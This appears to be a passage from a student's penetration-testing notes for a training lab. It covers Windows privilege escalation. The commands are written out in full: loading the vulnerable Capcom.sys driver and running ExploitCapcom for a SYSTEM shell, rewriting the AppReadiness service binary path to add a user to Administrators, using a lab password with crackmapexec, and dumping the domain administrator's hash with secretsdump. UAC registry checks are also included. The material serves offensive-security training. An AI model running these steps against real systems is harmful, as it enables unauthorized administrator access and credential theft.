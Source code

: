    - Use EoPLoadDriver : 
```powershell
EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys
```

We would then run `ExploitCapcom.exe` to pop a SYSTEM shell or run our custom binary.

#### Server Operators
#Print_Operators

   - Confirming service starts : 
```cmd
 sc qc AppReadiness
```

   - Download Psservice :
```sh
wget https://learn.microsoft.com/en-us/sysinternals/downloads/psservice
```

   - Checking Service Permissions :
```cmd
c:\Tools\PsService.exe security AppReadiness
```

- Modifying the Service Binary Path

```sh
sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
```

- Retrieve Credential :

```sh
crackmapexec smb 10.129.43.9 -u server_adm -p 'HTB_@cademy_stdnt!'

secretsdump.py server_adm@10.129.43.9 -just-dc-user administrator
```


### OS Exploitation
#### User Account Control
#UAC

- Confirming UAC is Enabled :
```shell
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
```

- Checking UAC Level :
```cmd-session
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
```

- If **0** then, UAC won't prompt (like **disabled**)
    
- If **1** the admin is **asked for username and password** to execute the binary with high rights (on Secure Desktop)
    